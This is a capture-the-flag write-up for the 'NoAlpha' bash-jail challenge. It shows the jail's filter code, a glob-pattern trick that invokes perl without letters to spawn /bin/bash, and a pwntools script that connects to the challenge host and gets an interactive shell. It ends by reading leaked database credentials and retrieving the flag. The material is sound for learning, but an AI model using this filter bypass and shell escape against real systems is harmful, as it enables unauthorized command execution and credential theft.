 ## 21 - NoAlpha

### Description

**Solve**: 6/242

**Score**: 90

In the shadowed realm of Cyberton, a legendary Python jail known as "AlphanoNumera" stands, renowned for its unique security mechanism. Crafted by the enigmatic mastermind, Cipheron, this digital fortress allows bash commands—but with a twist. No alphanumeric characters are permitted within its virtual walls.

Source: [https://stdio-2026-public.2600.in.th/noalpha.zip](https://stdio-2026-public.2600.in.th/noalpha.zip)

Author: ErbaZZ

 `157.230.193.18:10021`

### Solution

```python
import re
import subprocess

while True:
    cmd = input('$ ')
    allowed_commands = ['echo', 'whoami', 'uname'] # TODO: Add other 'safe' commands

    check = cmd

    for command in allowed_commands:
        check = check.replace(command, '')

    if re.search(r'[a-zA-Z0-9!]', check) is None:
        try:
            subprocess.run(cmd, shell=True, executable='/bin/bash', env={'HOME':'/home/ctf'})
        except:
            print("?")
    else:
        print("Nope.")
```

Luckily if we look into a bash man page we can see that bash also allow pattern matching with `?` and `*` character which is similar to regex

```bash
$ nc 157.230.193.18 10021
$ echo *
bin boot dev etc home lib lib64 media mnt opt pg_hba.conf proc root run sbin srv start.sh sys tmp usr var
$ echo ???/???
bin/cat bin/dir bin/pwd bin/sed bin/tar dev/pts dev/shm dev/tty etc/apt etc/gss etc/opt etc/rmt etc/rpc etc/ssl lib/lsb sys/bus sys/dev usr/bin usr/lib usr/src var/lib var/log var/opt var/run var/tmp
$ echo ???/????
bin/bash bin/dash bin/date bin/echo bin/grep bin/gzip bin/more bin/stty bin/sync bin/true bin/vdir bin/zcat bin/zcmp bin/znew dev/core dev/full dev/null dev/ptmx dev/zero etc/dpkg etc/motd etc/perl etc/skel lib/init lib/udev run/lock run/utmp usr/sbin var/lock var/mail
$ ???/????
bin/dash: bin/dash: cannot execute binary file
```

Here we can see that if there's no match for a pattern, the pattern won't expand, but in case that there is a match it will expand to list of matched directories or files, and we can see that `/bin/bash ` which can be called with `???/????` but it will have other binary with the same pattern as arguments, which will cause an error

So, from this point it is likely that you have to find a program with unique pattern path, so we can call it properly, after couple of long minutes, here is what I found

```
$ echo ???/???/*
[...SNIPPED...] usr/bin/perl5.32-x86_64-linux-gnu usr/bin/perl5.32.1 usr/bin/perlbug usr/bin/perldoc [...SNIPPED...]
```

There's a `perl5.32.1` which is a scripting language interpreter which could be used to spawn shell and help us escape from jail, we can call it with `???/???/?????.??.?` since it have `.` in it we can specifically call it without match with any other binaries

```
$ echo ???/???/?????.??.?
usr/bin/perl5.32.1
```

According to https://gtfobins.github.io/gtfobins/perl/ we can spawn shell by using `'exec "/bin/sh";'`

```
$ ???/???/?????.??.?
exec "/bin/bash"
```

Unfortunately we have to also send EOF signal to the `perl` but with `nc` it won't be possible without some config, there probably many ways to go about sending EOF to `perl` in this challenge but for me I just going to use `pwntools`

```python
from pwn import *

io = remote('157.230.193.18', 10021)

io.sendlineafter(b'$', b'???/???/?????.??.?')
io.wait(0.1)
io.sendline(b'exec "/bin/bash"')
io.wait(0.1)
io.sendline(b'\x04')

io.interactive()
```

```bash
$ python shell.py
[+] Opening connection to 157.230.193.18 on port 10021: Done
[*] Switching to interactive mode
 $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
The flag is in a locally hosted postgresql database.

Database: flag
Username: ctf
Password: 4802691a4cfdc98ed215717cc8efb529
$ psql -h 127.0.0.1 -U ctf -d flag
Password for user ctf: $ 4802691a4cfdc98ed215717cc8efb529

$ select * from flag;
                     flag                     
----------------------------------------------
 STDIO23_21{810fc25e2373f4669ba5cc28eeec2c93}
(1 row)
```

And just like that, we get the flag `STDIO23_21{810fc25e2373f4669ba5cc28eeec2c93}`